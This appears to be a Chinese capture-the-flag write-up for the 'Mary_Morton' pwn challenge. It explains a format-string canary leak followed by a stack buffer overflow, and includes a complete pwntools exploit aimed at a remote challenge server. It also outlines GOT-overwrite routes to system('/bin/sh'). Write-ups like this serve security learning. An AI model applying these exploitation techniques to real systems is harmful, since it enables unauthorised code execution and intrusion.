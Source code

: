 		| stack      |
		| ---------- |
		| 0x88 bytes |
		| Canary     |
		| RBP        |
		| RIP        |

5)构造payload：我们的目的是将canary的值泄漏出来，canary距离buf栈顶的位置相差0x88个字节，%p是将值进行泄漏，前面的位置为17+6，所以paload为：
payload=%23$p，接收到一个十六进制的canary的值。
再次构造payload为：

payload='a'*(0x90-0x8)+p64(canary)+'a'*8+p64(backdoor_addr)

**exp**：
```python
#coding=utf-8
from pwn import *

context(arch='amd64',os='linux',log_level='debug')
elf=ELF('./Mary_Morton')
#p=process('./Mary_Morton')
p=remote('220.249.52.133','52935')

p.sendlineafter('3. Exit the battle','2')
p.sendline('%23$p')
p.recvuntil('0x')

canary=int(p.recv(16),16)
print(canary)

backdoor_addr=0x4008da
payload=0x88*'a'+p64(canary)+8*'a'+p64(backdoor_addr)

p.sendlineafter('3. Exit the battle','1')
p.sendline(payload)
p.interactive()
p.close()
```
writeup赞最多的第二条和第三条写的不错


1、第二种思路，

方式1:输入2，利用格式化字符串将printf的got地址修改为system的plt地址，再次输入2，输入'/bin/sh\x00'，相当于执行system('/bin/sh\x00')

方式2:输入2，利用格式化字符串将exit的got地址修改为sub_4008DA函数地址（该函数可以直接执行cat./flag）,再次输入3，调用sub_4008DA函数catflag

问题1：writeup中的第三条其他的两种思路的写法

问题2：writeup中第四条中4%23$p的写法

问题3：re.findall(r'\w+\{.+\}', conn.recvuntil('}'))

